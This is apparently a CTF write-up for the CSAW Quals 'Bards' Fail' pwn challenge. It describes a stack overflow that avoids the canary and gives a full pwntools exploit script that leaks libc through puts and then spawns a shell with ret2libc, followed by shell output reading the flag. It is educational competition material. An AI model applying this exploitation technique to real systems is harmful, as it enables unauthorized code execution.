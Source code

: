 ```yaml
---
title: The Bards' Fail
date: 2020-09-15 20:05:10
author: Pwn-Solo
author_url: https://twitter.com/Pwn_Solo
categories:
  - Pwn
tags:
  - CSAW Quals
  - Stack Overflow
---
```


**tl;dr**
+ Carefully arranging structs on stack so as to overwrite saved rip , without corrupting the stack canary.
+ Leak libc with puts and execute a ret2libc to get shell 

<!--more-->
**Challenge Points:** 150
**Solves:** 97
## Challenge description

***Pwn your way to glory! You do not need fluency in olde English to solve it, it is just for fun***

we're given the challenge binary along with the libc 

first off , lets take a look at the mitigations enabled 
```gdb
CANARY    : ENABLED
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```

## Functionality

This is what the challenge binary looked like 
```
*** Welcome to the Bards' Fail! ***

Ten bards meet in a tavern.
They form a band.
You wonder if those weapons are real, or just props...

Bard #1, choose thy alignment (g = good, e = evil):
g	
Choose thy weapon:
1) +5 Holy avenger longsword
2) +4 Crossbow of deadly accuracy
1
Enter thy name:
testname

Bard #2, choose thy alignment (g = good, e = evil):
```
It first asks us to initialize 10 Bards with the option of choosing their alignment (good or evil).
We control the weapon and name of each bard , which are then stored on the stack .

each Bard is stored in a sort of structure on the stack ... looking into it further , we see that the good and evil structs are not quite the same 

```
'good' allocation -> 48 bytes
0240| 0x7ffdeef25150 --> 0xf0014006c 
0248| 0x7ffdeef25158 ("AAAAAAAA")  <-input 
0256| 0x7ffdeef25160 --> 0x0 
0264| 0x7ffdeef25168 --> 0x0 
0272| 0x7ffdeef25170 --> 0x0 
0280| 0x7ffdeef25178 --> 0x4032000000000000 ('')


'evil' allocation -> 56 bytes
0288| 0x7ffdeef25180 --> 0x63 ('c')
0296| 0x7ffdeef25188 --> 0x4032000000000000 ('')
0304| 0x7ffdeef25190 --> 0x424200140000000f 
0312| 0x7ffdeef25198 --> 0x424242424242 ('BBBBBB') <- input
0320| 0x7ffdeef251a0 --> 0x0 
0328| 0x7ffdeef251a8 --> 0x0 
0336| 0x7ffdeef251b0 --> 0x0 

```

## Exploitation
since evil allocates more bytes I used them to overflow the stack but was greeted with this message ...
```
AAAAAAAAAAAAAAAAAAAA is arrested.
*** stack smashing detected ***:
```
we can see our canary is at the offset 488 from the start of our input and since we give 56*10 bytes we end up corrupting it. The solution is to get our canary to overlap with our input string (instead of the constant data fields of the struct) so that we can choose to not overwrite it . Placing a "good" block at the start ends up doing that for us 

```
second last 'evil' block 
0680| 0x7ffcb4bcd168 --> 0x63 ('c')
0688| 0x7ffcb4bcd170 --> 0x4032000000000000 ('')
0696| 0x7ffcb4bcd178 --> 0x414100140000000f 
0704| 0x7ffcb4bcd180 ('A' <repeats 22 times>)
0712| 0x7ffcb4bcd188 ('A' <repeats 14 times>)
0720| 0x7ffcb4bcd190 --> 0x414141414141 ('AAAAAA')
0728| 0x7ffcb4bcd198 --> 0x69ac49fe9683bf00      <- canary
last 'evil' block 
0736| 0x7ffcb4bcd1a0 --> 0x7ffcb4bcd163 --> 0x630000000000 ('')
0744| 0x7ffcb4bcd1a8 --> 0x4032000000000000 ('') <- corrupted saved rip  
0752| 0x7ffcb4bcd1b0 --> 0x414100140000000f 
0760| 0x7ffcb4bcd1b8 --> 0x141414141 

```
okay.. so the canary's safe but the data from the last evil struct overwrites the saved rip , lucky for us the 'good' allocation has its input starting from ```param_1 + 8``` which is exactly where the saved rip will be . All we do is make a 'good' allocation at the end instead and give in our payload to take control of rip.

```
Stopped reason: SIGSEGV
0x0000414141414141 in ?? ()
```
perfect ! now all we need is a libc leak and a simple ret2libc will do the rest  

## Exploit Code

```py
from pwn import *
import sys
import os

remote_ip,port = 'pwn.chal.csaw.io','5019'
binary = 'bard'
brkpts = '''
'''
if sys.argv[1] == 'remote' :
    io = remote(remote_ip,port)

else:
    io = process(binary,env={'LD_PRELOAD':'./libc-2.27.so'})
    
re = lambda a: io.recv(a)
ru = lambda a: io.recvuntil(a)
rl = lambda  : io.recvline()
s  = lambda a: io.send(a)
sl = lambda a: io.sendline(a)
sla= lambda a,b: io.sendlineafter(a,b)
sa = lambda a,b: io.sendafter(a,b)

def good(weapon,name):
  sla(":\n",'g')
	sla("cy\n",str(weapon))
	sa("name:\n",name)

def evil(weapon,name):
	sla(":\n",'e')
	sla("ent\n",str(weapon))
	sa("name:\n",name)

def sheriff():
	sla("do?\n",'e')

def zombie(inp):
	sla("do?\n",inp)

def trigger(payload):
  for i in range(1):
		good(1,b"A"*8)
  for i in range(8):
		evil(1,b"B"*8)
  
  good(1,payload)
  gdb.attach(io,brkpts)
	
  for i in range(1):
		zombie('r')
  
  for i in range(8):
		sheriff()
	
  for i in range(1):
		zombie('r')	

#gadgets
puts = 0x4006d0
pop_rdi = 0x401143
main = 0x40107b
ret = 0x4006ae

if __name__== "__main__":	
	#good -> 48 bytes
	#bad  -> 56 bytes
	payload = p64(pop_rdi)
	payload += p64(0x602020)
	payload += p64(puts)
	payload += p64(main)
	trigger(payload)

	ru("away.")
	rl()
	leak = re(6)
	leak = u64(leak+b'\x00\x00')-0x80a30
	system = leak + 0x4f4e0
	binsh = leak +0x1b40fa
	
	log.info("base {} ".format(hex(leak)))
	log.info("sys {}".format(hex(system)))
	log.info("/bin/sh {}".format(hex(binsh)))

	payload = p64(ret)
	payload += p64(pop_rdi)
	payload += p64(binsh)
	payload += p64(system)
	trigger(payload)

	io.interactive()
```
The idea to get leaks was to call ```puts@plt``` using a GOT address as the argument ,Then call main again;to then which we give the payload to finally execute a ret2libc


```
pwn-solo@m4chin3:~/ctf/csaw/bard$ python3 exploit.py remote
[+] Opening connection to pwn.chal.csaw.io on port 5019: Done
[*] base 0x7f9f7fe3a000 
[*] sys 0x7f9f7fe894e0
[*] /bin/sh 0x7f9f7ffee0fa
[*] Switching to interactive mode
Options:
(b)ribe
(f)latter
(r)un
$ ls
bard
flag.txt
$ cat flag.txt
flag{why_4r3_th3y_4ll_such_c0w4rds??}
```
pretty cool :)
